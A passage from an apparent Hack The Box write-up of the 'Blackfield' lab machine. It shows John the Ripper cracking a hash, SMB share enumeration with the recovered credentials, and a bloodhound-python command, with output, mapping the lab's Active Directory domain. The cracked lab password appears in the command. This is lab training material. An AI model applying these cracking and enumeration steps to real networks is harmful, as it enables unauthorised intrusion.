 We can now use JohnTheRipper to crack this hash:

![john.png](../assets/blackfield_assets/john.png)

Nice! John was able to crack the hash, and we now have some working credentials.

After trying to logon to the box using Evil-WinRM and failing, it looks like we need to enumerate a bit more. Lets use these credentials to see if we can access any other SMB shares that we couldn't before.

![cme2.png](../assets/blackfield_assets/cme2.png)

Hmm, we can now access the `NETLOGON` and `SYSVOL` shares,but I didn't see anything of interest in them. 

Lets go ahead and use bloodhound-python to se if we can visualize this domain a bit more. 

```text
┌──(ryan㉿kali)-[~/HTB/Blackfield]
└─$ bloodhound-python -c All -u support -p '#00^BlackKnight' -d BLACKFIELD.local -ns 10.10.10.192 --zip
INFO: Found AD domain: blackfield.local
INFO: Getting TGT for user
INFO: Connecting to LDAP server: dc01.blackfield.local
INFO: Kerberos auth to LDAP failed, trying NTLM
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 18 computers
INFO: Connecting to LDAP server: dc01.blackfield.local
INFO: Kerberos auth to LDAP failed, trying NTLM
INFO: Found 316 users
INFO: Found 52 groups
INFO: Found 2 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: DC01.BLACKFIELD.local
INFO: Querying computer: 
```